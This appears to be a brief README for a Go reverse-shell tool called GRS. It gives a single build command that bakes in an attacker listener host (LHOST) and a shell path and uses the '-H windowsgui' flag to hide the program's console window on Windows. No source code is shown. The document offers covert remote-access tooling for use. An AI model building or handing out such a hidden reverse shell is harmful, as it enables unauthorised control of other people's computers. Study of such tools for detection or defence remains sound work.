 # GRS
### A Golang reverse shell


#### To build:
`$ go build -ldflags "-X 'main.host=**LHOST**' -X 'main.shell=**shell path**' -H windowsgui" "GRS.go"`
